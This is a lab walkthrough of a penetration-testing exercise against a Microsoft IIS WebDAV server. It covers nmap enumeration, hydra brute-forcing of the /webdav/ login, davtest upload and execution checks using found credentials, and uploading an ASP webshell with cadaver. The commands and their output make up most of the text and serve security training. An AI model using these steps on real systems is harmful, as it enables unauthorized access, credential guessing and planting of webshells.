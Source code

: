 # Exploiting Microsoft IIS WebDAV

## Tools used:

[Davtest](https://code.google.com/archive/p/davtest/):

Davtest is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.

[cadaver](https://github.com/grimneko/cadaver):

Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

***

First of all, let's perform a basic Nmap scan:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# nmap -sV -sC -p80 10.5.27.26
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-30 15:04 IST
Nmap scan report for 10.5.27.26
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
<strong>80/tcp open  http    Microsoft IIS httpd 10.0
</strong>| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND LOCK UNLOCK PROPPATCH MKCOL PUT DELETE MOVE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to /Default.aspx
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, LOCK, UNLOCK
|   Server Date: Sat, 30 Dec 2023 09:35:07 GMT
|_  Server Type: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
</code></pre>

This doesn't give us proper information for webDav, let try to run the enum script:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# nmap -sV -sC -p80 10.5.27.26 --script=http-enum
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-30 15:08 IST
Nmap scan report for 10.5.27.26
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
<strong>|_  /webdav/: Potentially interesting folder (401 Unauthorized)
</strong>|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
</code></pre>

We found a wedav directory which gives us 401, which means we need authentication to access the directory. We can brute force the login credentials using hydra:

```sh
root@attackdefense:~# hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.5.27.26 http-get /webdav/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-30 15:14:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 400 login tries (l:8/p:50), ~25 tries per task
[DATA] attacking http-get://10.5.27.26:80/webdav/
1 of 1 target completed, 0 valid password found
```

This was just an example that how to perform brute force in this case.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

and this is how it looks.

So now we know that Webdav allows us to download or upload the files within this directory. So we can use a tool for this that already comes with kali Linux:

```sh
root@attackdefense:~# davtest -url http://10.5.27.26/webdav
********************************************************
 Testing DAV connection
OPEN		FAIL:	http://10.5.27.26/webdav	Unauthorized. Basic realm="10.5.27.26"
```

This was the basic usage of davtest. to connect to webdav, we need to give it a valid credentials like this:

```sh
root@attackdefense:~# davtest -url http://10.5.27.26/webdav -auth bob:password_123321
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.5.27.26/webdav
********************************************************
NOTE	Random string for this session: zQDBIXMfsh
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh
********************************************************
 Sending test files
PUT	txt	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.txt
PUT	jsp	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.jsp
PUT	asp	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.asp
PUT	cgi	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.cgi
PUT	php	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.php
PUT	html	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.html
PUT	jhtml	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.jhtml
PUT	pl	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.pl
PUT	shtml	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.shtml
PUT	aspx	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.aspx
PUT	cfm	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.cfm
********************************************************
 Checking for test file execution
EXEC	txt	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.txt
EXEC	jsp	FAIL
EXEC	asp	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.asp
.
.
```

The connection is successful.

To upload, download or modify files, we can now use the cadaver utility:

```sh
root@attackdefense:~# cadaver http://10.5.27.26/webdav
Authentication required for 10.5.27.26 on server `10.5.27.26':
Username: bob
Password: 
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp 
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
```

Here we upload an ASP webshell.

> Webshells comes pre-packages in kali linux at the following path
>
> ```sh
> root@attackdefense:~# ls /usr/share/webshells/
> asp  aspx  cfm	jsp  laudanum  perl  php  seclists
> ```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Our shell is working correctly.
